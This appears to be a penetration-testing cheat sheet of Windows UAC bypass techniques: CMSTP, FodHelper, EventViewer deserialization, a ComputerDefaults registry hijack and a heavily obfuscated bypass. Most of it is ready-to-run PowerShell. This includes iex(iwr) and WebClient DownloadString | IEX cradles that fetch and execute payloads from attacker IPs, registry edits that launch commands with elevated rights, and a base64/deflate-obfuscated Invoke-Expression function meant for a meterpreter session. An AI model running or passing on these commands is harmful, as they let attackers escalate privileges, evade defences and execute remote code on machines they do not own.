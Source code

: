 ## 1. CMSTP

Source: https://github.com/expl0itabl3/uac-bypass-cmstp.<br>
- Invoke: `iex(iwr http://192.168.45.195/cmstp.ps1 -useb)`
- Execute: `Bypass-UAC -Command "curl http://192.168.45.223/worked"`

## 2. FodHelper

- uses CurVer to abuse UAC, should bypass Windows Defender (?)

## 3. EventViewer

Source: https://github.com/CsEnox/EventViewer-UACBypass<br>
RCE through Unsafe .Net Deserialization in Windows Event Viewer which leads to UAC bypass.<br>

```powershell
PS C:\Windows\Tasks> Import-Module .\Invoke-EventViewer.ps1

PS C:\Windows\Tasks> Invoke-EventViewer 
[-] Usage: Invoke-EventViewer commandhere
Example: Invoke-EventViewer cmd.exe

PS C:\Windows\Tasks> Invoke-EventViewer cmd.exe
[+] Running
[1] Crafting Payload
[2] Writing Payload
[+] EventViewer Folder exists
[3] Finally, invoking eventvwr
```

## 4. Manual Approach - ComputerDefaults
```powershell
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "C:\Windows\System32\cmd.exe /c curl http://192.168.50.149/worked" -Force
Start-Process "C:\Windows\System32\ComputerDefaults.exe"
```

## 5. Heavily Obfuscated UAC Bypass
Thanks to [saulgoodman](https://github.com/saulg00dmin) for pointing out this technique.

Source: https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/blob/main/Functions/UAC-Bypass.md

1. Prepare command to be executed:

```powershell
$ipAddress = (ip addr show tun0 | grep inet | head -n 1 | cut -d ' ' -f 6 | cut -d '/' -f 1)
$text = "(New-Object System.Net.WebClient).DownloadString('http://$ipAddress/run3.txt') | IEX"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
exit
```

2. Insert the Base64 blob into the `code` variable like the below:

```powershell
$code = "KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADIAMAA3AC8AcgB1AG4AMwAuAHQAeAB0ACcAKQAgAHwAIABJAEUAWAA=" 
```

3. Create the `Bypass` function:

```powershell
function Bypass {
[CmdletBinding()]
param (
[Parameter (Position=0, Mandatory = $True)]
[string]$code )

(nEw-OBJECt  Io.CoMpreSsion.DEflateSTrEaM( [SyStem.io.memoRYSTReaM][convErT]::fromBaSE64STriNg( 'hY49C8IwGIT/ykvoGjs4FheLqIgfUHTKEpprK+SLJFL99zYFwUmXm+6ee4rzcbti3o0IcYDWCzxBfKSB+Mldctg98c0TLa1fXsZIHLalonUKxKqAnqRSxHaH+ioa16VRBohaT01EsXCmF03mirOHFa0zRlrFqFRUTM9Udv8QJvKIlO62j6J+hBvCvGYZzfK+c2o68AhZvWqSDIk3GvDEIy1nvIJGwk9J9lH53f22mSdv') ,[SysTEM.io.COMpResSion.coMPRESSIONMoDE]::DeCompress ) | ForeacH{nEw-OBJECt Io.StReaMrEaDer( $_,[SySTEM.teXT.enCOdING]::aSciI )}).rEaDTOEnd( ) | InVoKE-expREssION
}
```

4. Then execute `Bypass` in the meterpreter shell make sure you have a listener running:

```powershell
Bypass $code
```

